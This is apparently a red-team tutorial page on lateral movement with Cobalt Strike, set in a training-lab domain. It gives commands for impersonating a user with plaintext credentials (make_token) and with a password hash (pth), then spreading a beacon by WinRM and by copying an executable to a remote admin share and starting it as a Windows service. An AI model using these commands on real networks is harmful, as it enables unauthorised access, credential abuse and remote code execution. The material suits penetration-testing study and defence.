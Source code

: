 # Techniques - Moving Laterally





## Introduction

This page section will combine impersonation techniques found in the previous section "User Impersionation" with the actual techniques to establish connections on other hosts.







## Cobalt Strike&#x20;

Below is a combination of different ways to get a beacon on the host using multiple different credential methods to impersonate a user.

### Plaintext Creds - make\_token

```bash
// Establish netonly Token (example)
beacon> make_token DEV\jking Qwerty123
// Example beacon spawn
// Jump (using SMB listener)
beacon> jump winrm64 sql-2.dev.cyberbotic.io Default_SMB_Listener
```



### Hash creds - pth

```bash
beacon> pth DEV\jking 59fc0f884922b4ce376051134c71e22c
beacon> steal_token <PID>
// Example beacon spawn
beacon> upload demo.svc.exe C:\Windows\Temp
// Copy beacon to remote host & create service
beacon> shell copy C:\Windows\Temp\demo.svc.exe \\172.16.48.121\C$\Windows\Temp
beacon> shell sc \\172.16.48.121 create demopth binpath=C:\Windows\Temp\demo.svc.exe
beacon> shell sc \\172.16.48.121 start demopth
// Connect to beacon w/ link (smb)
beacon> link 172.16.48.83
```

\
